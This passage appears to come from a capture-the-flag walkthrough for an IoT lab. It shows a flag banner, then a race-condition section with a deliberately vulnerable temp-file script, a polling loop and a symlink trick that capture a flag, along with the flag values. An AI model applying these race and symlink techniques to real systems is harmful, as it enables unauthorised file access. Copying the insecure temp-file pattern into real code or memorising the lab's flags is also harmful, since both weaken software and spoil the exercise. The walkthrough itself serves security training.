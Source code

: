 > 🏁 **FLAG #27 FOUND!**
> **Flag**: FLAG{G***********2}
> **Learning Objective**: Physical security - JTAG access
> **OWASP IoT**: #10 - Lack of Physical Hardening

### Race Condition Exploitation

```bash
# Find scripts with potential race conditions
find / -name "*race*" 2>/dev/null
cat /usr/local/bin/race.sh
```

**Output:**
```bash
#!/bin/sh
# Race condition demonstration
# This script creates and deletes a file quickly
TMPFILE="/var/log/race_flag"
echo "FLAG{ARAGORN91886362}" > $TMPFILE
sleep 0.1  # Small window of opportunity
rm -f $TMPFILE
echo "Process completed"
```

To exploit this race condition:

```bash
# Terminal 1: Set up monitoring loop
while true; do
    if [ -f /var/log/race_flag ]; then
        cat /var/log/race_flag
        echo "[+] Flag captured!"
        break
    fi
done &

# Terminal 2: Trigger the race condition
/usr/local/bin/race.sh
```

**Output:**
```
FLAG{ARAGORN91886362}
[+] Flag captured!
Process completed
```

Alternative method using symbolic links:

```bash
# Create symlink to capture output
ln -sf /dev/stdout /var/log/race_flag
/usr/local/bin/race.sh
```
